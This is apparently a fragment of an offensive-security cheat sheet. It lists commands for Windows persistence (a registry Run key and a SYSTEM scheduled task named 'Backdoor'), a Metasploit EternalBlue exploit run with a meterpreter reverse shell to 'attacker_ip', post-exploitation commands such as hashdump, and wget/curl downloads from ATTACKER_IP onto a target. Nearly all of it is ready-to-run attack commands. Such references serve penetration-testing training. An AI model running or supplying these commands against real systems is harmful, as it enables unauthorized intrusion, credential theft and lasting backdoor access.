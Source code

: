 ### Windows Persistence
```powershell
# Registry Run keys
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "C:\path\to\backdoor.exe"

# Scheduled task
schtasks /create /tn "Backdoor" /tr "C:\path\to\backdoor.exe" /sc onlogon /ru System
```

---

## Useful Tools

### Metasploit
```bash
# Start Metasploit
msfconsole

# Search for exploits
search type:exploit platform:windows

# Use an exploit
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS target.com
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST attacker_ip
exploit

# Meterpreter commands
sysinfo
getuid
hashdump
screenshot
shell
```

### File Transfer

#### Linux to Linux
```bash
# Python HTTP server
python3 -m http.server 8000

# Download on target
wget http://ATTACKER_IP:8000/file
curl http://ATTACKER_IP:8000/file -o file

# SCP
scp file user@target:/tmp/
```
